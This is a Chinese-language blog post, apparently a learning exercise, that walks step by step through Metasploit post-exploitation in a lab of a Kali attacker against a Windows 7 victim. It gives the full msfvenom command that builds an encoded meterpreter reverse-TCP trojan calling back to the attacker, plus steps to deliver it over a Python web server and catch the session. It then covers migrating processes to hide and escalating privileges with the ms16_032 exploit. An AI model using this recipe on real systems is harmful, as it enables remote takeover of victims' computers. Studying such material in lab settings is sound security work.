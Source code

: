 ```yaml
---
layout:    post
title:     后渗透获得一个普通session
subtitle:  学习学习
date:      2021-05-28
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:

   - 后渗透
---
```


> 实验环境：
>
> A：Kali 192.168.78.131 攻击机
>
> B：win7 192.168.78.128 受害机

### 先来一个简单的拿 shell 吧

1.在Kali开启 MSF

2.进入监听模块

```
use exploit/multi/handler
```

3.利用 msfvenom 制作木马程序

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=192.168.78.131 lport=4444 -b"\x00" -e x86/shikata_ga_nai -f exe > msf.exe
```

参数说明：

+ -p payload
+ -e：编码方式。
+ -i：编码次数。
+ -b：在生成的程序中避免出现的值。
+ -f exe： 生成 exe 格式。

+ -a：代表系统结构，需要和攻击机一样。
+ -platform：平台选择 Windows
+ -p windows/meterpreter/reverse_tcp 反弹

[![2FhEJU.png](https://z3.ax1x.com/2021/05/28/2FhEJU.png)](https://imgtu.com/i/2FhEJU)

4.将木马传到主机：

这里使用 python2： ``python -m SimpleHTTPServer port`` | python3：``python -m http.server port`` 搭建一个HTTP服务，提供一个文件浏览的web页面到某端口。

[![2FhjTx.png](https://z3.ax1x.com/2021/05/28/2FhjTx.png)](https://imgtu.com/i/2FhjTx)

在访问下载期间会有回显。

5.打开目标机，进入搭建地址下载木马：

[![2Fh5kV.png](https://z3.ax1x.com/2021/05/28/2Fh5kV.png)](https://imgtu.com/i/2Fh5kV)

6.返回第二步界面，设置监听主机

```
set lhost 192.168.78.131
```

7.查看配置

```
show options
```

[![2F4mh8.png](https://z3.ax1x.com/2021/05/28/2F4mh8.png)](https://imgtu.com/i/2F4mh8)

在设置一个 payload：

```
set payload windows/meterpreter/reverse_tcp
```

再看看选项：

[![2AbQR1.png](https://z3.ax1x.com/2021/05/29/2AbQR1.png)](https://imgtu.com/i/2AbQR1)

8.运行：run 或 exploit

[![2F4R3D.png](https://z3.ax1x.com/2021/05/28/2F4R3D.png)](https://imgtu.com/i/2F4R3D)

9.在 win7 中运行我们的 msf.exe 木马，再次查看 msf  控制台

[![2AbYZD.png](https://z3.ax1x.com/2021/05/29/2AbYZD.png)](https://imgtu.com/i/2AbYZD)

可以看到得到了session。

10.查看 session，如果此时是 meterpreter，输入 background 即可返回 msf exploit(multi/handler)。

[![2kVIUA.png](https://z3.ax1x.com/2021/05/28/2kVIUA.png)](https://imgtu.com/i/2kVIUA)

[![2Abbo4.png](https://z3.ax1x.com/2021/05/29/2Abbo4.png)](https://imgtu.com/i/2Abbo4)

这样我们就得到了一个普通的 session。

在 meterpreter 中看看身份：

[![2AbDQP.png](https://z3.ax1x.com/2021/05/29/2AbDQP.png)](https://imgtu.com/i/2AbDQP)

在 background 返回 msf 界面后，可以 ``sessions`` 查看进程，然后 ``session -i id`` 来进入 meterpreter 界面。再输入 ``shell`` 可以进入 win7 的 shell。

[![2AqPTe.png](https://z3.ax1x.com/2021/05/29/2AqPTe.png)](https://imgtu.com/i/2AqPTe)

当我们拿到 shell 后显示乱码，可以：

```
chcp 65001
```

### 隐藏自己 + 提权

#### 隐藏自己

先 ``ps`` 查看当前所有的会话进程。

再用 ``migrate 1844`` 将进程迁移到会话对应的 id。

(目前不懂)

#### 提权

返回 msf，使用 ``post/multi/recon/local_exploit_suggester`` 模块，查找目标机器未修补的漏洞：

```
use post/multi/recon/local_exploit_suggester
```

设置要攻击的会话 id：

```
set session 1
run
```

绿色代表对应的漏洞：

[![2AXUnP.png](https://z3.ax1x.com/2021/05/29/2AXUnP.png)](https://imgtu.com/i/2AXUnP)

利用现有的漏洞提权 (复制冒号之前的就可以，如 👇)

[![2AjCjI.png](https://z3.ax1x.com/2021/05/29/2AjCjI.png)](https://imgtu.com/i/2AjCjI)

```
#有的漏洞会失败，多试几个 成功后会返回 shell，否则就是失败了
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
show options
set session 2
run
```

[![2Ajg8H.png](https://z3.ax1x.com/2021/05/29/2Ajg8H.png)](https://imgtu.com/i/2Ajg8H)

再次查看我们的权限，可以看到提权成功。

提权详情 ------> [here](https://lll-yz.github.io/2021/05/28/内网渗透之提权/)